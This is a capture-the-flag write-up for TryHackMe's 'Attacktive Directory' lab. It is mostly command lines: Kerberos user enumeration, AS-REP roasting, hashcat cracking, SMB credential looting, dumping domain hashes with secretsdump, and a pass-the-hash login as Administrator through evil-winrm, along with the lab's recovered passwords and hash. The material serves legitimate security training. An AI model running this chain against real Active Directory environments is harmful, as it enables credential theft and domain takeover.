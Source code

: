 # Attacktive Directory

**Room Link:** [https://tryhackme.com/room/attacktivedirectory](https://tryhackme.com/room/attacktivedirectory)



## Walkthrough

### Setup

#### Installing Impacket

```
git clone https://github.com/SecureAuthCorp/impacket.git /opt/impacket
pip3 install -r /opt/impacket/requirements.txt
cd /opt/impacket/ && python3 ./setup.py install
```

#### Installing Bloodhound and Neo4j

```
apt install bloodhound neo4j
```

#### Installing kerbrute

```
git clone https://github.com/ropnop/kerbrute.git
cd kerbrute/
make all
```

### username and password custom lists for this machine

```
wget https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/userlist.txt
wget https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/passwordlist.txt
```

### Welcome to Attacktive Directory

#### **Initial Scan**

```
nmap -A $VICTIM
```

<figure><img src="../../.gitbook/assets/image (1) (10).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

#### Scan all ports

```
nmap -sV -sT -O -p 1-65535 $VICTIM
```

<figure><img src="../../.gitbook/assets/image (5) (2).png" alt=""><figcaption></figcaption></figure>

### netbios-ssn port 139 & microsoft-ds port 445

```
enum4linux $VICTIM
```

The NetBIOS-Domain Name of the machine

<figure><img src="../../.gitbook/assets/image (4) (6).png" alt=""><figcaption></figcaption></figure>

### Enumerating Users via Kerberos port 88

```
kerbrute/dist/kerbrute_linux_386 userenum --dc=$VICTIM -d=spookysec.local. userlist.txt
```

<figure><img src="../../.gitbook/assets/image (27).png" alt=""><figcaption></figcaption></figure>

### Abusing Kerberos

**validusers.txt**

```
james
svc-admin
robin
darkstar
administrator
backup
paradox
```

svc-admin allows us to get a ticket without a password. The hash type is Kerberos 5 etype 23 AS-REP.

```
python3.9 /opt/impacket/examples/GetNPUsers.py -no-pass -usersfile validusers.txt -dc-ip $VICTIM spookysec.local/
```

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

Cracking the hash we can see the password is management2005

```
hashcat -m18200 hash.txt passwordlist.txt
hashcat -m18200 hash.txt passwordlist.txt --show
```

<figure><img src="../../.gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>

### Back to the Basics

### netbios-ssn port 139 & microsoft-ds port 445

```
smbclient -L $VICTIM -U "svc-admin"
Enter WORKGROUP\svc-admin's password: management2005
```

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

```
smbclient \\\\$VICTIM\\backup -U "svc-admin"
smb: \> dir
smb: \> get backup_credentials.txt 
```

<figure><img src="../../.gitbook/assets/image (3) (8).png" alt=""><figcaption></figcaption></figure>

Its a base64 encoded username and password. backup@spookysec.local:backup2517860

```
cat backup_credentials.txt
echo "YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw" | base64 -d
```

<figure><img src="../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

### Elevating Privileges within the Domain - **WinRM** port5985

```
python3 /usr/local/bin/secretsdump.py  spookysec.local/backup:backup2517860@$VICTIM > allhashes.txt
cat allhashes.txt | awk -F : '{print $1 ":" $3}' | sort | uniq
```



### Flag Submission PaneLogin as Administrator&#x20;

```
evil-winrm -i $VICTIM -u Administrator -H 0e0363213e37b94221497260b0bcb4fc
```
